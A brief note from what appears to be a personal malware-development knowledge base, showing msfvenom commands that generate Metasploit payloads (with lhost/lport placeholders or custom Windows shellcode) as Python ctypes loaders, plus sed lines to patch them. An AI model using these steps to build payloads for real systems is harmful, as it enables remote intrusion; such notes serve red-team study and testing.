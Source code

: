 # MSFVenom

Generate any type of payload from the metasploit framework.

```
$ msfvenom -p <payload> lhost=<IP> lport=<PORT> -f python-reflection -o payload.py
```

You can also generate a payload from a custom shellcode.

```
$ msfvenom -p generic/custom payloadfile=./shellcode.bin -a x64 --platform windows -f python-reflection -o payload.py
```

Finally, fix the payload by appending this line in the top.

```
$ sed -i '1s/^/import ctypes\n/' payload.py

$ sed -i '1iimport ctypes' payload.py
```

---
## References

### Backlinks

- [[03 - Malware Development/Global Helpers/Compilers/Cross Platform/Python|Compilers: Python]]